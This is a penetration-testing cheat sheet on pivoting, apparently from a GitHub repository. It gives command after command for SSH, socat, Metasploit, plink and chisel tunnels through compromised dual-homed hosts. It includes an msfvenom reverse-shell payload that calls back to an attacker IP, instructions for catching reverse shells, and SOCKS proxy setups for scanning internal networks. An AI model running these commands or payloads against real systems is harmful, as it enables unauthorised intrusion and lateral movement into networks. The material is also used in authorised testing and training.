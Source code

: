 # **Pivoting**

**Local port forwarding:**
Forward a local port to a remote host

```
ssh -L <local_port>:<remote_host>:<remote_port> <username>@<remote_host>
```

**Remote port forwarding:**
Forward a remote port to a local host

```
ssh -R <remote_port>:<local_host>:<local_port> <username>@<remote_host>
```
**Dynamic port:**
Create a dynamic port forwarding

```
ssh -D <local_port> -p <remote_port> <username>@<remote_host>
```

**SOCAT**

```
socat file:`tty`,raw,echo=0 tcp-listen:8989
```

**PORT FORWARDING "port to port":**

- MSF: Most platforms

Forward: Get meterpreter session on one of the dual homed machines 
```
portfwd add -l 4445 -p 4443 -r ip
```
Use -R to make it reverse

- SSH: For Linux  

If you already have an SSH session
```
~C
```
on my Kali machine listen on 8081, get it from 172.24.0.2:80
```
-R 8081:ip:80
```
Now you can access 172.24.0.2:80, which you didn't have direct access to
```
:8081<------------:80 
```
on your machine listen on 8083, send it to my Kali machine on 8084
```
-L 8083:ip:8084
```
Run nc on port 8084, and if ip:8083 receives a reverse shell, you will get it,
```
:8084<------------:8083<------------:XXXX 
```

For reverse shell: 

```
msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=10.1.1.230 LPORT=8083 -f exe -o shell
```
Run it on 2nd remote target to get a shell on Kali

Or if you didn't have an SSH session, then SSH to your Kali from target machine: 
On Kali: service ssh start,add a user, give it /bin/false in /etc/passwd

```
ssh -R 12345:192.168.122.228:5986
```

- PLINK: Just like SSH, on Windows start ssh service, and transfer `/usr/share/windows-binaries/plink.exe` to the target machine

```
On Target: plink.exe ip -P 22 -C -N -L 0.0.0.0:4445:ip:4443 -l KALIUSER -pw PASS
```

- SOCAT: For linux

Forward your 8083 to ip:443 

```
./socat TCP4-LISTEN:8083,fork TCP4:ip:443
```

- CHISEL: Most platforms

Remote static tunnels "port to port":

On Kali "reverse proxy listener": 
```
./chisel server -p 8000 -reverse
```

General command: 
```
./chisel client : L/R:\[YOUR LOCAL IP]:::
```

Remote tunnels "access IP:PORT you couldn't access before": 

```
On Target: ./chisel client ip:8000 R:127.0.0.1:8001:172.19.0.3:80
```
Local tunnels "listen on the target for something, and send it to us": 

```
On Target: ./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003
```

DYNAMIC "port to any": setup proxychains with socks5 on 127.0.0.1:1080 Or set up socks5 proxy on firefox For nmap use -Pn -sT or use tcp scanner in msf

- MSF: Most platforms

Get meterpreter session on one of the dual homed machines Auto route to ip (multi/manage/autoroute) Start socks proxy (auxiliary/server/socks4a)

- SSH: For Linux

```
-D1080
```

- PLINK: Just like SSH, on Windows

```
On Target: plink.exe ip -P 22 -C -N -D 1080 -l KALIUSER -pw PASS
```

- CHISEL: Most platforms

```
On Kali: ./chisel server -p 8000 -reverse
```
```
On Target: ./chisel client ip:8000 R:8001:127.0.0.1:1080 ./chisel server -p 8001 --socks5
```
```
On Kali: ./chisel client 127.0.0.1:8001 socks
```